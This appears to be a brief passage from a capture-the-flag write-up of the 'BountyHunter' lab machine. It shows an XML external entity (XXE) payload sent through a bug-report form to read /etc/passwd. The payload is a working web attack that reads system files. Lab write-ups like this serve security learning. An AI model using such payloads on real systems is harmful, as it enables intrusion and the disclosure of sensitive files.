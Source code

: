 ![Burp XML](/img/bountyhunter/BountyHunter_Burp_XML.png)

<h1>User as development</h1>

<h2>XXE</h2>

I'll throw a test payload to read **/etc/passwd** since the users on the machine might be needed at some point.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY raccoon SYSTEM "/etc/passwd"> ]>
		<bugreport>
		<title>&raccoon;</title>
		<cwe>&raccoon;</cwe>
		<cvss>&raccoon;</cvss>
		<reward>&raccoon;</reward>
		</bugreport>
```
